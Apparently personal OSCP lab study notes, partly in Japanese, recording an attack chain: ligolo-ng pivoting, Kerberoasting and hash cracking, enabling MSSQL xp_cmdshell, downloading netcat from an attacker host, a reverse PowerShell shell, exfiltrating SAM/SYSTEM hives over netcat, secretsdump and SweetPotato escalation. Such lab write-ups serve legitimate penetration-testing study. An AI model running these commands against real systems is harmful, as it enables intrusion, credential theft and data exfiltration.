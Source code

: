 <pivotting technique>

1. Transfer the agent file to the machine hovering over both Network segments
wget http://192.168.45.173/agent.exe -outfile agent.exe

2. Start the ligolo server 
./proxy -selfcert -laddr 0.0.0.0:443

3. Start the ligolo agent to connect to the server 
./agent.exe -connect 192.168.45.173:443 -ignore-cert

![imane alt](https://github.com/timrekmlac/Cybersecurity-Study/blob/main/OSCP/images/image.png?raw=true)

ここで、internal machine である、DCにもアクセス出来る様になる。


impacket-GetUserSPNs -request -dc-ip 10.10.138.146 oscp.exam/Eric.Wallows





hashcat -m 13100 kerberoas_hash /usr/share/wordlists/rockyou.txt
sql_svc の password が、 Dolphin1と分かる。


impacket-mssqlclient sql_svc:Dolphin1@10.10.138.148 -windows-auth


EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;


EXEC xp_cmdshell ' whoami '



listener_add --addr 0.0.0.0:888 --to 0.0.0.0:888
listener_add --addr 0.0.0.0:4444 --to 0.0.0.0:4444
listener_add --addr 0.0.0.0:80 --to 0.0.0.0:80
listener_add --addr 0.0.0.0:8000 --to 0.0.0.0:8000






( なぜかエラーになった  )  EXEC xp_cmdshell 'certutil -urlcache -f http://10.10.138.147nc64.exe C:\Windows\Temp\nc64.exe';
EXEC xp_cmdshell 'powershell -Command "(New-Object Net.WebClient).DownloadFile(''http://10.10.138.147/nc64.exe'',''C:\Users\Public\nc64.exe'')"';




EXEC xp_cmdshell 'C:\Users\Public\nc64.exe 10.10.138.147 4444 -e powershell'


(4444 にて、nc で待ち受ける)



C:\windows.old\windows\system32>nc64.exe 10.10.149.138 5555 < SAM
C:\windows.old\windows\system32>.\nc64.exe 10.10.149.138 5555 < SYSTEM

nc -lvnp 5555 > SAM
nc -lvnp 5555 > SYSTEM





impacket-secretsdump -sam SAM -system SYSTEM LOCAL



 .\SweetPotato -t * -p shell.exe -l 1235

このマシンのエスカレは、sweetpotato で出来る。




impacket-secretsdump -sam SAM -system SYSTEM LOCAL



	

https://medium.com/@saintlafi/pivoting-and-tunneling-for-oscp-and-beyond-cheat-sheet-3435d1d6022

https://zenn.dev/megapachirisu/articles/bb0e9beb3f20ae

https://zenn.dev/codingotter/articles/79590426fecee5#chisel-dynamic-port-forwarding


https://medium.com/@Poiint/pivoting-with-ligolo-ng-0ca402abc3e9

https://medium.com/@redfanatic7/guide-to-pivoting-using-ligolo-ng-efd36b290f16

Ligolo-ng Accessing Localhost Ports




